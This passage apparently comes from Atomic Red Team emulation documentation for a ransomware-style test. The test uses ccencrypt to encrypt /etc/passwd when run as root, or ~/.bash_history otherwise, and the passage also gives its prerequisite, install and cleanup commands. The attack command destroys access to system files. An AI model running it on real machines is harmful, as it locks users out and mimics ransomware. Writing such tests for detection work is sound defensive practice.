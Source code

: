 #### Inputs:

| Name                 | Description                                                         | Type   | Default Value   |
| -------------------- | ------------------------------------------------------------------- | ------ | --------------- |
| cped_file_path       | path where you want your copied file to be                          | path   | /tmp/passwd     |
| root_input_file_path | path to the file that you want to be encrypted if you are root user | path   | /etc/passwd     |
| user_input_file_path | path to file that you want to be encrypted if you are normal user   | path   | ~/.bash_history |
| impact_command       | command to show impact of encryption                                | string | sudo su         |

#### Attack Commands: Run with `sh`!

```sh
if [ $USER == "root" ]; then $which_ccencrypt #{root_input_file_path}; file #{root_input_file_path}.cpt; #{impact_command}; else $which_ccencrypt #{user_input_file_path}; file #{user_input_file_path}.cpt; #{impact_command}; fi
```

#### Cleanup Commands:

```sh
if [ $USER == "root" ]; then mv #{cped_file_path} #{root_input_file_path}; else cp #{cped_file_path} #{user_input_file_path}; fi
```

#### Dependencies: Run with `sh`!

##### Description: Finds where ccencrypt and ccdecrypt is located and copies input file

##### Check Prereq Commands:

```sh
which_ccencrypt=`which ccencrypt`
which_ccdecrypt=`which ccdecrypt`
if [ $USER == "root" ]; then cp #{root_input_file_path} #{cped_file_path}; else cp #{user_input_file_path} #{cped_file_path}; fi
```

##### Get Prereq Commands:

```sh
(which pkg && pkg install -y ccript)||(which yum && yum -y install epel-release ccrypt)||(which apt-get && DEBIAN_FRONTEND=noninteractive apt-get install -y ccrypt)
```

<br/>
<br/>

## Atomic Test #4 - Encrypt files using openssl (FreeBSD/Linux)

Uses openssl to encrypt a file
